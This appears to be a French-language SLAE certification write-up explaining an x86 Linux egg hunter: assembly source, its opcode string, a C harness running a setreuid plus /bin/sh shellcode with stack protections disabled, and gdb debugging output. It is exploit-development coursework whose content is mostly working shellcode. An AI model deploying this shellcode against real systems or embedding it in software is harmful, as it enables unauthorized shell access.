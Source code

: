 # Assignement 3 #

Il s'agit dans ce troisième exercice de coder un "Egg Hunter shellcode". Il s'agit d'un technique permettant de palier au manque de mémoire necessaire à l'ajout du shellcode en mémoire. Le programme va chercher en mémoire une séquence lui indiquant qu'il se trouve au début du shellcode. Cette séquence doit être une suite d'opcodes qui ont peu de chance d'être contigues afin de pouvoir le retrouver facilement. Etant sur une architecture 32 bits nous allons utiliser une clé (Egg Key) de 4 octets.

Afin d'améliorer les chances de le trouver, il peut être conseillé de multiplier sa taille par deux.

## Définition de la clé ##

Nous allons pour cela utiliser la clé "b33fb33f". Ce choix est arbitraire, c'est un pattern facilement identifiable et qui a très peu de chance d'exister hors de ce contexte.

Le programme Egg hunter va parcourir la mémoire à la recherche de la clé précédement définie. Lors qu'il va essayer d'accéder à une zone mémoire non mappée cela va causer une erreur syst§me (SIGSEV). Il est donc necessaire de connaître une adresse accessible dans le même segment pour le shellcode et la clé.

L'idée est présentée via le descirptif ci-dessous.

```c
[egg hunter][random memory][egg][shellcode]
````

Nous allons pour cela créer un EggHunter qui aura pour fonction de chercher dans la mémoire la clé. Il faut pour cela s'assurer d'être dans le bon segment.

```c
; Egg Hunter Linux x86 shellcode
; Author: Alain Menelet
; Tested on ubuntu 16.04.3 LTS
; Egg Hunter stack memory


global _start

section .text

_start:
	jmp short valid

validAddress:
	
	pop eax			    ; eax contains a valid address
	mov ebx, 0x3fb33fb3	    ; egg key

_:
	inc eax			    ; increase memory
	cmp dword [eax], ebx        ; compare with the key
	jne _                       ; loop if dfferent
	jmp eax                     ; if equal jump to shellcode



valid:
	call validAddress

```

Nous compilons le tout :

```c
"\xeb\x0d\x58\xbb\xb3\x3f\xb3\x3f\x40\x39\x18\x75\xfb\xff\xe0\xe8\xee\xff\xff\xff";
```

Une fois cela fait nous allons modifier le programme C afin qu'il prenne en compte le shellcode, l'Egg key et l'Egg hunter.

Nous prenons le shellcode utilisé dans l'exercice 6. Il exécute un setreuid + /bin/sh.

```c

#include <stdio.h>
#include <stdlib.h>
#include <string.h>

unsigned char egg[] = \
"\xeb\x0d\x58\xbb\xb3\x3f\xb3\x3f\x40\x39\x18\x75\xfb\xff\xe0\xe8\xee\xff\xff\xff";

unsigned char shellcode[] = \
"\xb3\x3f\xb3\x3f" // EggKey
"\x31\xc9\xf7\xe1\x89\xcb\x99\xb0\xa4\xcd\x80\xf7\xe1\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x51\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80";

int main()
{

	printf("Taille de l'Egg Hhunter %d\nAdresse du Shellcode:%p\n", strlen(egg), shellcode);
	int (*ret)() = (int(*)())egg;
	ret();

return 0;
}

La compilation se fait de la même manière :

gcc -fno-stack-protector -z execstack test_egg.c -o test_egg
```

Nous testons le tout :

```c
phidia@xophidia-VirtualBox:~/Documents/Shellcode/as3$ ./eggHunter_test
Taille de l'Egg Hhunter 20
Adresse du Shellcode: 0x804a060
$ 
```

### Détails : ###

L'egg Hunter fonctionne comme suit :
Nous voyons l'adresse obtenue lors du pop eax. Elle est valide et servira de point de départ à la recherche.

Une fois la clé trouvée, nous effectuons un saut à cette adresse soit le début du shellcode.

```c
EAX: 0x8048074 --> 0x0           ; valid address from jump pop call technique
EBX: 0x3fb33fb3                  ; Egg key
ECX: 0x0 
EDX: 0x0 
ESI: 0x0 
EDI: 0x0 
EBP: 0x0 
ESP: 0xbffff200 --> 0x1 
EIP: 0x8048068 (<_>:	inc    eax) ; loop while the key is not found

[-------------------------------------code-------------------------------------]
   0x804805f:	add    bl,ch
   0x8048061 <_start+1>:	or     eax,0x3fb3bb58
   0x8048066 <validAddress+4>:	mov    bl,0x3f
=> 0x8048068 <_>:	inc    eax
   0x8048069 <_+1>:	cmp    DWORD PTR [eax],ebx
   0x804806b <_+3>:	jne    0x8048068 <_>
   0x804806d <_+5>:	jmp    eax
   0x804806f <valid>:	call   0x8048062 <validAddress>


Nous observons dans la pile la clé dans egg ainsi qu'au début du shellcode.

gdb-peda$ x/20x 0x804a040
0x804a040 <egg>:	0xbb580deb	0x3fb33fb3	0x75183940	0xe8e0fffb
0x804a050 <egg+16>:	0xffffffee	0x00000000	0x00000000	0x00000000
0x804a060 <shellcode>:	0x3fb33fb3	0xe1f7c931	0xb099cb89	0xf780cda4
0x804a070 <shellcode+16>:	0x2f6851e1	0x6868732f	0x6e69622f	0x8951e389
0x804a080 <shellcode+32>:	0xe18953e2	0x80cd0bb0	0x00000000	0x00000000
```


This blog post has been created for completing the requirements of the SecurityTube Linux Assembly Expert certification:

http://www.securitytube-training.com/online-courses/securitytube-linux-assembly-expert/

StudentID - SLAE-3763